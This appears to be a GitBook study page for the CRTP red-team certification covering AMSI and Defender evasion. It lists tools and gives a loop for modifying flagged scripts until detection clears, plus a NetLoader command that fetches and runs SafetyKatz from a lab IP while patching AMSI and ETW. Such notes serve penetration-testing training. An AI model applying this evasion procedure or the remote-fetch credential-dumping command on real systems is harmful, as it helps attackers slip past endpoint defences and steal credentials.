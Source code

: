 ```yaml
---
description: >-
  Explore an insightful article about CRTP AMSI Bypass - a key technique in
  cybersecurity. This piece delves into its design, functionality, and crucial
  role in securing network infrastructures.
cover: ../.gitbook/assets/CRTP (1).png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🔥 AMSI Bypass

### Bypass Defences On-Memory

### Bypass Defences On-Disk

[AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% code overflow="wrap" %}
```powershell
AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1 DefenderCheck.exe PowerUp.ps1
```
{% endcode %}

[DefenderCheck](https://github.com/t3hbb/DefenderCheck)

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Steps to avoid signature-based detection are pretty simple:&#x20;

1\) Scan using AMSITrigger&#x20;

2\) Modify the detected code snippet&#x20;

3\) Rescan using AMSITrigger&#x20;

4\) Repeat steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “BLANK"

### Payload Delivery

{% embed url="https://github.com/Flangvik/NetLoader" %}

It can be used to load binary from file path or URL and patch AMSI & ETW while executing.

```
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

**Summary of Bypassing Defence Mechanisms**

To evade on-memory and on-disk defences, the process involves iteratively modifying and scanning scripts or executables to evade signature-based detection tools like AMSITrigger. The goal is to continue the cycle of modification and rescanning until tools like AMSITrigger no longer detect the code, indicating a successful bypass.

* **On-Memory Bypass Routine:**
  1. Execute AMSITrigger to identify detectable code.
  2. Alter the code flagged by AMSITrigger.
  3. Rescan with AMSITrigger post-modification.
  4. Repeat until "AMSI\_RESULT\_NOT\_DETECTED" appears.
*   **Delivery of Payload:**

    A loader can be utilized for delivering a payload, which involves fetching and executing a binary from either a local path or a remote URL. Consequently, the binary can patch both AMSI and ETW, helping the payload to avoid detection during execution. A typical command for this operation follows the format:

    ```
    Loader.exe -path <binary_source>
    ```
